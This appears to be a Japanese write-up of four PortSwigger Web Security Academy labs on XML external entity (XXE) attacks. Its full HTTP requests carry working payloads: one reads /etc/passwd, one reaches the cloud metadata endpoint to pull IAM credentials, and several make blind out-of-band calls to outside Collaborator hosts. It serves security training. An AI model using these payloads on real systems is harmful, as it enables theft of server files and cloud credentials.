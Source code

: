 # XXE writeup
- [XXE writeup](#xxe-writeup)
  - [****Exploiting XXE using external entities to retrieve files****](#exploitingxxeusing-external-entities-to-retrieve-files)
  - [****Exploiting XXE to perform SSRF attacks****](#exploiting-xxe-to-perform-ssrf-attacks)
  - [****Blind XXE with out-of-band interaction****](#blindxxewith-out-of-band-interaction)
  - [****Blind XXE with out-of-band interaction via XML parameter entities****](#blind-xxewith-out-of-band-interaction-via-xml-parameter-entities)

## ****Exploiting XXE using external entities to retrieve files****

---

`TOP > View details > Check stok`を押すと、 以下のようなrequest・responseが帰ってきます。

```xml
POST /product/stock HTTP/2
Host: 0a80002b03e9457186e86d0a00f700f7.web-security-academy.net
<readacted>

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

265
```

今回はやるだけ。なので特にいうことがない気がします

```xml
POST /product/stock HTTP/2
Host: 0a80002b03e9457186e86d0a00f700f7.web-security-academy.net
<readacted>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE hoge [<!ENTITY fuga SYSTEM "file:///etc/passwd">]> 

<stockCheck><productId>
&fuga;</productId><storeId>
1</storeId></stockCheck>
```

## ****Exploiting XXE to perform SSRF attacks****

---

`http://169.254.169.254/` に対してバックエンドHTTP Requestを送ればよさそうです。

TOP > View details > Check stockを押下すると以下のようなリクエストが飛びます。

```
POST /product/stock HTTP/2
Host: 0aaf002803d2727e806844280079005a.web-security-academy.net
<redacted>

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

productIdを1000などにすると`"No such product or store”` と言われます。

以下のようにして送ってみると、`"Invalid product ID: latest”` と言われます。

```
POST /product/stock HTTP/2
Host: 0aaf002803d2727e806844280079005a.web-security-academy.net
<redacted>

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE fuga [<!ENTITY hoge SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>&hoge;</productId><storeId>1</storeId></stockCheck>
```

latestが階層へのヒントであるため繰り返していけば終わりです。

```
POST /product/stock HTTP/2
Host: 0aaf002803d2727e806844280079005a.web-security-academy.net
<redacted>

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE fuga [<!ENTITY hoge SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&hoge;</productId><storeId>1</storeId></stockCheck>
```

## ****Blind XXE with out-of-band interaction****

---

脆弱性がある箇所は前と一緒です。

そしてやることも**`Exploiting XXE to perform SSRF attacks`**のラボと大体一緒です。

```xml
<!DOCTYPE fuga [<!ENTITY xxe SYSTEM "http://l3p0eutk9j4hc5z0fu6xlv3bm2stgj48.oastify.com" > ] >
```

```xml
POST /product/stock HTTP/2
Host: 0a560065037a7028867ae85f00b000ac.web-security-academy.net
<readcted>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fuga [<!ENTITY xxe SYSTEM "http://l3p0eutk9j4hc5z0fu6xlv3bm2stgj48.oastify.com" > ] >
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## ****Blind XXE with out-of-band interaction via XML parameter entities****

---

前回までのラボと特に脆弱性のある箇所は変わっていません。

無効なproductIdを投げた時は、`"Invalid product ID”` となり入力値の結果はエコーバックしなさそうです。

つまり、Blindを試す必要がありそうです。

```xml
POST /product/stock HTTP/2
Host: 0a73002003919be98139572b0097007f.web-security-academy.net
Cookie: session=vj63H6l0rIE6g6v3SOZftE5bFctyhnva
<redacted>

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE fuga [<!ENTITY xxe SYSTEM "http://1uwg5ak00zvx3lqg6axdcburdij971vq.oastify.com">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

このように送ってみると、`"Entities are not allowed for security reasons”` と怒られます。

ということでここで役に立つのがXML Parameter Entityです。

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://o4t3fxunam5kd803gx70my4en5twht5i.oastify.com" > %xxe; ]>
```

上記を使いラボを終了させます。(http以下は、自身のCollaboratorを使用してください)

```xml
POST /product/stock HTTP/2
Host: 0a73002003919be98139572b0097007f.web-security-academy.net
Cookie: session=vj63H6l0rIE6g6v3SOZftE5bFctyhnva
<redacted>

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://o4t3fxunam5kd803gx70my4en5twht5i.oastify.com" > %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

